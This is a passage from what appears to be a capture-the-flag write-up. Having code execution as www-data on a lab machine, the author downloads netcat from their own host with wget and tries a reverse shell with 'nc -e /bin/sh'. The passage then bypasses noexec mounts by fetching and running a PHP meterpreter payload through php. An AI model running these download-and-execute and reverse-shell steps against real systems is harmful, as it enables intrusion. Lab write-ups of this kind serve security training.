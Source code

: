 I have RCE as `www-data`:
```
# python rce.py
> id
**
10.10.14.23 - - [14/Apr/2019:21:59:41 -0400] "GET / HTTP/1.1" 200 2 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Python and netcat are not installed on this box. I tried using perl to spawn a shell but I kept killing the box (bad code injected in the access log? so I tried downloading netcat and spawn a shell that way.
```
> wget http://10.10.14.23/nc -O /tmp/nc

> chmod 777 /tmp/nc

> ls -l /tmp/nc

10.10.14.23 - - [14/Apr/2019:22:08:26 -0400] "GET / HTTP/1.1" 200 2 "-" "-rwxrwxrwx 1 www-data www-data 442856 Apr 14 14:22 /tmp/nc

> /tmp/nc -e /bin/sh 10.10.14.23 80

[No output!]
```

I download netcat on the box but I don't get any callback when I try to execute it. When I look at the filesystem mounts I see that the temporary locations are all mounted as `noexec` so I can't run any binary that I upload there.

```
> mount
**
10.10.14.23 - - [14/Apr/2019:22:00:14 -0400] "GET / HTTP/1.1" 200 2 "-" "/dev/mapper/sda2_crypt on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,noexec)
[...]
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /boot type ext2 (rw,relatime,block_validity,barrier,user_xattr,acl)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
```

### First shell using Metasploit

If I upload a PHP meterpreter payload into `/tmp` I can execute it since the `php` binary is in the main partition that is executable.

```
> wget http://10.10.14.23:443/snowscan.php -O /tmp/snowscan.php

> php /tmp/snowscan.php
```
